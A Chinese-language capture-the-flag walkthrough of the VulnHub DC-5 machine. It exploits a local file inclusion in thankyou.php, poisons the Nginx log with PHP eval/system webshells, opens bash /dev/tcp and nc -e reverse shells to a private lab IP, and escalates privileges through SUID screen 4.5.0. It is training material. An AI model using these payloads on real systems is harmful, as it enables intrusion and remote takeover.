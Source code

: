 ## DC-5 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-5          | `192.168.1.107` |

### 扫描端口和版本信息

`nmap -A 192.168.1.107`

![1](../src/vulnhub/dc_5/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Nginx** 代理服务器，以及它的版本号：**1.6.2**

![2](../src/vulnhub/dc_5/2.png)

经过 OSINT，发现该版本的漏洞不多。虽然没有让人兴奋的 RCE，但是却发现一个本地提权漏洞（从[这篇文章](https://vuldb.com/?id.93109)知道是 Nginx 日志文件导致的提权漏洞），我们将它作为候补方案

![13](../src/vulnhub/dc_5/13.png)

除了自己收集的信息之外，出题人也给了我们明确的信息：

```
You need to look for something a little out of the ordinary (something that changes with a refresh of a page).
```

经过使用 BP 的高级功能 **Content Discovery** 发现 `footer.php` 页面内容会改变，想必这就是作者提到的刷新会改变的页面，因此可以确定突破口就在这里

![5](../src/vulnhub/dc_5/5.png)

经过测试后发现页面返回的内容就几个，猜测是有随机值或者存在固定的数组元素

![3](../src/vulnhub/dc_5/3.png)

后来查看 `thankyou.php` 页面源码发现包含 `footer.php`页面。不过进行到这里卡了一段时间，实在没头绪就想到用 [Arjun](https://github.com/s0md3v/Arjun) 工具来试试测试 HTTP 请求参数

![4](../src/vulnhub/dc_5/4.png)

结果是让人兴奋的，至少这次成功了（之前测试其他的页面啥都没有 ¯\(°_o)/¯）。不过一看到参数的名字就立刻想到 **LFI**，因此把它丢到 **Intruder**，暴力读一下文件

> 使用 SecLists 项目的 `Fuzzing\LFI\LFI-Jhaddix.txt` 字典

![6](../src/vulnhub/dc_5/6.png) 

返回结果有很多，可以使用 BP 的过滤功能过滤掉没有返回内容的响应包

> 没有返回内容的响应包内容长度都是 **835**，因此在过滤框中填入 `Content-Length: 835` 进行过滤，又因为我们需要反向选择，勾选 **Negative search** 选项，这样过滤后的结果就是有返回内容的响应包

![7](../src/vulnhub/dc_5/7.png)

当然我们也可以修改 `file` 参数值为 `php://filter/convert.base64-encode/resource=footer.php` 来查看 `footer.php` 文件内容

```php
<?php    
//Random Gen Test    
$rndmYears = array(
    "Copyright © 2017", "Copyright © 2018", "Copyright © 2019",  "Copyright © 2020"  );    
echo $rndmYears[mt_rand(0, count($rndmYears)-1)];    
?>
```

因此这里我们就可以使用之前收集到的信息读取 Nginx 的日志文件

![9](../src/vulnhub/dc_5/9.png)

![9](../src/vulnhub/dc_5/9.png)

![8](../src/vulnhub/dc_5/8.png)

### Getshell

经过测试，我们知道 Nginx 会将请求的内容保存在日志文件，这样我们可以进行 getshell ，因此在 BP 上修改请求字段：`GET /thankyou.php?file=<?php @eval($_POST["sh"]);?> HTTP/1.1` 并提交。

之后使用 [蚁剑](https://github.com/AntSwordProject/antSword) 连接上之后再远程连接 Kali 

`bash -c "bash -i >& /dev/tcp/192.168.1.112/6677 0>&1"`

### 提权

后面的步骤一如既往，上传 `LinEnum.sh` 脚本到虚拟机 `/tmp` 目录下执行。注意到 `/bin/screen-4.5.0` 具有 **SUID** 权限

![10](../src/vulnhub/dc_5/10.png)

查找该工具的漏洞

![11](../src/vulnhub/dc_5/11.png)

结果是好的，我们可以进行本地提权。不过这里我们直接将脚本上传运行会有些问题，既然 shell 脚本自动化执行有点问题，那就根据脚本内容手动一步步执行就可以了

![12](../src/vulnhub/dc_5/12.png)

### 总结

1. 走投无路时试试测试 HTTP 查询参数，也可以使用 Kali 自带的 wfuzz 工具

2. Getshell 时，可以试试

   `GET /thankyou.php?file=<?php system($_GET['cmd']); ?> HTTP/1.1`

   后续访问执行命令再加上 `cmd` 参数即可，比如：

   `http://192.168.1.107/thankyou.php?file=/var/log/nginx/error.log&cmd=nc%20192.168.1.112%206677%20-e%20/bin/bash`

3. BP 过滤选项不仅可以根据选择的内容过滤，也可以根据状态码过滤：`status":"404`